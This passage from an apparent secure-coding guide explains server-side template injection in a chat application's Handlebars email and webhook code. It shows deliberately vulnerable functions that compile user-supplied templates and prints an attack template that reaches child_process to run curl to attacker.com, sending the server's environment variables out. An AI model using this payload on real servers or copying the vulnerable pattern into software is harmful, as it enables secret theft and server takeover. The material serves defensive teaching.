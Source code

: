 ```javascript
const Handlebars = require('handlebars');

function sendWelcomeEmail(userData) {
    // User controls template content through profile settings
    const template = userData.emailTemplate || "Welcome {{name}} to {{roomName}}!";
    const compiled = Handlebars.compile(template);
    
    // Template injection occurs during compilation and execution
    const message = compiled(userData);
    sendEmail(userData.email, message);
}
```

This implementation appears reasonable for providing personalized user experiences. Users can customize their email format through profile settings, and the template engine handles variable substitution safely. The functionality works correctly for standard template patterns that users typically configure.

But template engines like Handlebars, Pug, and EJS contain powerful features for accessing JavaScript runtime context during template processing. When user input controls template content, attackers can inject template syntax that accesses system functions, executes arbitrary code, or manipulates server state.

An attacker submits this template through your profile customization interface:

```javascript
const maliciousTemplate = `
Welcome {{name}}!
{{#with (lookup this 'constructor')}}
  {{#with (lookup this 'constructor')}}
    {{#with (lookup this 'prototype')}}
      {{#with (lookup this 'constructor')}}
        {{this 'require("child_process").exec("curl attacker.com/steal?data=" + JSON.stringify(process.env))'}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
`;
```

When your notification system processes this template, the Handlebars engine executes the embedded JavaScript code on your server. The malicious template accesses the Node.js `require()` function through prototype chain traversal, imports the `child_process` module, and executes arbitrary system commands. The attacker gains complete control over your chat server through a seemingly innocent email preference setting.

Your webhook integration system presents another template injection vector. Chat applications often integrate with external services like Slack, Discord, or custom webhooks that format user messages according to destination service requirements. These integrations typically use template engines to transform chat messages into appropriate formats for external APIs.

```javascript
// Webhook integration with user-controlled formatting
function sendWebhookNotification(message, webhookConfig) {
    const template = webhookConfig.messageTemplate;
    const rendered = templateEngine.render(template, {
        user: message.author,
        content: message.content,
        timestamp: message.timestamp
    });
    
    sendToWebhook(webhookConfig.url, rendered);
}
```
